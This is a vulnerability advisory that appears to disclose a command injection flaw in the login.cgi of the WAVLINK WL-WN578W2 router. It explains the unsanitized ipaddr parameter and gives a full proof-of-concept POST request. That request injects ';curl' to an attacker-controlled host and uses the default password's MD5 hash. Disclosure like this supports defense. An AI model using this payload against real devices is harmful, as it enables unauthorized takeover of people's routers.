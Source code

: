 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection (sys\_login1 Action in login.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  Authenticated access required, but password uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.

## Overview

A command injection vulnerability exists in the `sys_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `ipaddr` parameter in `sub_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.



![Vulnerability Flow: sys\_login1 Action Logic](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware**: M78W2\_V221110

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, trigger via `page=sys_login1`)

*   **Vulnerable Code**: `ftext` function (request routing) & `sub_401BA4` function (core login logic) in login.c

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, fully control the device; exploit is reusable via fixed password MD5.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **Request Routing**: The `ftext` function parses the `page=sys_login1` parameter from the request and calls the `sub_401BA4` function to process core logic.

2.  **Password Verification**: `sub_401BA4` uses the command `echo -n '%s' | md5sum` to verify the input password (fixed MD5 encryption logic, no dynamic changes).

3.  **Command Injection**: The `ipaddr` parameter is not sanitized and is directly used in system command concatenation. Attackers can use delimiters (e.g., `;`) to inject malicious commands.



![MD5 Verification Logic: Fixed Encryption Process](./imgs/2.png)



![Vulnerable Command Flow: ipaddr Parameter Usage](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` corresponds to the default password `123456`).

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=sys\_login1\&ipaddr=::ffff:192.168.10.154;curl http://192.168.10.154:1234#\&key=M55373357\&password=e10adc3949ba59abbe56e057f20f883e
```

#### PoC Execution Results



1.  **Fixed MD5 Generation**: Run the command `echo -n '123456' | md5sum` on a Linux terminal to generate the password hash, which matches the `password` parameter in the PoC.



![MD5 Generation: Command & Result](./imgs/4.png)



1.  **Successful Injection**: After sending the PoC request, the device executes the injected `curl` command, and the attacker’s server (192.168.10.154:1234) records the request, confirming command execution.

![Injection Success: Attacker Server Log](./imgs/5.png)
